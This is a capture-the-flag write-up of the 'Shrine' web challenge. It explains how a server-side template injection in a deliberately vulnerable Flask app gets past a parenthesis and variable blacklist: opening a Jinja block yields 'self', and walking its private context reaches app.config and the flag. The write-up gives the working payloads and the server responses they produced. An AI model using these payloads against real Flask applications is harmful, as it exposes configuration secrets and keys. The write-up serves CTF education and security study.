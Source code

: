 # Shrine (web, 190p, 58 solved)

```
shrine is translated as jinja in Japanese.
```

In the challenge we are given link to vulnerable website: http://shrine.chal.ctf.westerns.tokyo/.
Without any parameters, it prints its own source code:

```python
import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist])+s
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

This is classic example of [server side template injection](https://www.owasp.org/index.php/Server-Side_Includes_(SSI)_Injection). Authors don't even try to hide it from
us - the injection point is obvious. For example visiting `http://shrine.chal.ctf.westerns.tokyo/shrine/{{2+2}}` Will print "4".

SSTI is usually equivalent to RCE and would be [trivial to exploit](https://github.com/vulhub/vulhub/tree/master/flask/ssti).
Unfortunatelly, in this case there is a slight problem - `(` and `)` chracters are blacklisted. Additionaly `config` and `self` JINJA2 variables are cleared.

At the beginning we tried to find a way to execute arbitrary code, but we failed. So we deduced, that we probably don't need RCE and the intended solution
expects us to find the original app.config somewhere.

After carefully reading the JINJA2 source code, we noticed that `self` is a very, [very peculiar](https://github.com/pallets/jinja/blob/fb7e12cce67b9849899f934e697f7e2a91d604c2/jinja2/compiler.py#L744) variable:


```python
if 'self' in find_undeclared(node.body, ('self',)):
    ref = frame.symbols.declare_parameter('self')
    self.writeline('%s = TemplateReference(context)' % ref)
```

So `self` is changed to TemplateReference(context), but only if it's used without declaration in the current scope. At the first sight it's impossible to
solve, because self is always overwritten in the beginning (so it should always be referenced), but of course it's more complex.
After more reading, it turned out that it's enough to create a new block to skip this check. So we can get reference to self with:

```
{%block kitku%} {{self}} {%endblock%}
```

```
<TemplateReference None>
```

We can go from there and look for interesting things:

```
{%block kitku%} {{self.__dict__}} {%endblock%}
```

```
{'_TemplateReference__context': <Context {'range': <class 'range'>, 'dict': <class 'dict'>, 'lipsum': <function generate_lorem_ipsum at 0x7fdc26d9f268>, 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>, 'url_for': <function url_for at 0x7fdc23b10d08>, 'get_flashed_messages': <function get_flashed_messages at 0x7fdc23b10ea0>, 'config': None, 'request': <Request 'http://shrine.chal.ctf.westerns.tokyo/shrine/{%25block kitku%25} {{self.__dict__}} {%25endblock%25}' [GET]>, 'session': <NullSession {}>, 'g': <flask.g of 'app'>, 'self': None} of None>}
```

Of course the most interesting thing is internal __context variable - I wonder what's in the parent...

```
{%block kitku%} {{self._TemplateReference__context.parent}} {%endblock%}
```

```
{'range': <class 'range'>, 'dict': <class 'dict'>, 'lipsum': <function generate_lorem_ipsum at 0x7fe752e1a268>, 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>, 'url_for': <function url_for at 0x7fe74fc89d08>, 'get_flashed_messages': <function get_flashed_messages at 0x7fe74fc89ea0>, 'config': <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'FLAG': 'TWCTF{pray_f0r_sacred_jinja2}'}>, 'request': <Request 'http://shrine.chal.ctf.westerns.tokyo/shrine/{%25block kitku%25} {{self._TemplateReference__context.parent}} {%25endblock%25}' [GET]>, 'session': <NullSession {}>, 'g': <flask.g of 'app'>}
```

And sure enough, we see original config and FLAG variable: `TWCTF{pray_f0r_sacred_jinja2}`
